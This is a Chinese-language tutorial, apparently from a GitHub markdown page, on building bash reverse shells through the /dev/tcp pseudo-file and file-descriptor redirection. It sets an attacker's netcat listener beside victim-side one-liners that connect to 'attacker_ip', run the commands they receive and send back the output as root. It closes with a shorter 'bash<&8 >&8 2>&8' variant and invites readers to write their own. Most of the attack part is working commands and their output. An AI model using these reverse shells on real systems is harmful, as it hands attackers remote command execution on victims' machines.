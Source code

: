 ```/dev/tcp/ip/port```，这个文件不是存在的，但是当你在监听这个端口的时候，对这个文件进行读写，就可以实现两个主机之间的socket通信

n&- 表示将n号输出关闭

page2:

攻击机：

	[root@attacker]# nc -lvp 2333             # 第一步
	Connection from victim_ip:46414
	helloworld                                # 第三步
	123

受害机：

	[root@victim]# exec 65534<>/dev/tcp/attacker_ip/2333  # 第二步
	[root@victim]# cat <&65534
	helloworld
	123

受害机的文件描述符同步读取到攻击机的写入。

page3:

	[root@attacker]# nc -lvp 2333
	Connection from victim_ip:46536
	id
	11


受害机：

	[root@victim]#exec 65534<>/dev/tcp/attacker_ip/2333;cat <&65534|while read line;do $line;done
	uid=0(root) gid=0(root) groups=0(root)
	-bash: 11: command not found

受害机的文件描述符同步读取到攻击机的写入并通过shell脚本执行；

page4:

受害机的文件描述符同步读取到攻击机的写入并通过shell脚本执行后返回到文件描述符。

	exec 65534<>/dev/tcp/attacker_ip/2333;cat<&65534|while read line;do $line 2>&65534 >&65534;done

## 总结

掌握了原理，可以写出各种变形，例如：	```exec 8<>/dev/tcp/attacker_ip/2333;bash<&8 >&8 2>&8```，大家可以自由发挥。

## 参考资料

[Create a Reverse Shell to Remotely Execute Root Commands Over Any Open Port Using NetCat or BASH](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)

[使用NetCat或BASH创建反向Shell来执行远程执行Root命令--**上文翻译**](https://www.ktanx.com/blog/p/532)

[linux exec与重定向](http://xstarcd.github.io/wiki/shell/exec_redirect.html)

## 后记

1.查看系统可用的shell类型：

![](images/11.jpg)

```